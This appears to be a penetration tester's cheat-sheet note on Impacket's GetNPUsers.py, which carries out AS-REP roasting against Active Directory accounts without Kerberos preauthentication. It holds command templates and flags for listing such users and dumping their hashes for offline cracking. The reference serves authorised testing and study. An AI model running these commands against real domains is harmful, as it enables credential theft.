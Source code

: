 ## Definition
This tool in used to launch the ASREPRoast attack. This script will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). For those users with such configuration, a John the Ripper output will be generated so you can send it for cracking.

## Usage
Command to use a list of users or given credentials, perform an LDAP query to obtain users to attack on:
	GETNPUsers.py __{DOMAIN}/__ -usersfile __{WORDLIST}__ -format hashcat -outputfile __{HASH-NAME}__
Request TGTs for users in a file
	GetNPUsers.py -no-pass -usersfile __{USERS-WORDLIST}__ __{DOMAIN}__/

## Useful flags
Flags:
- -k : Use kerberos authentication
- -no-pass : Don't ask for password (Useful for -k)
- -usersfile __{USERS_WORDLIST}__ : File with user per line to test
- -format __{hashcat, john}__ : Format to save the AS_REQ of users without pre-authentication
- -outputfile __{FILENAME}__ : Output filename
- -request : Requests TGT for users and output them in JtR/hashcat format
- -dc-ip __{IP-ADDR}__ : IP address of the [[Domain controller (DC)]]. If ommited it use the domain part specified in the target parameter
- -dc-host __{HOSTNAME}__ : Hostname of the [[Domain controller (DC)]] to use. If ommited, the domain part specified in the account parameter will be used